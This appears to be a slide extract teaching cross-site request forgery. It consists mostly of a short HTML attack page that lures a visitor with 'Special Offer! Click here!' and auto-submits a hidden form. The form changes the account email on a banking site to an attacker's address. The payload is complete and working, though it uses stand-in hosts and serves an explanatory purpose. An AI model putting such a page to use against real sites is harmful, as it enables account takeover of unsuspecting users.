

<!-- attack_page.html on the attacker's website -->
<html><body>
    <h1>Special Offer! Click here!</h1>
    <form action="https://mybank.com/change-email" method="POST" id="csrfForm">
        <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <script>
        document.getElementById("csrfForm").submit(); // Submits the form automatically
    </script>
</body></html>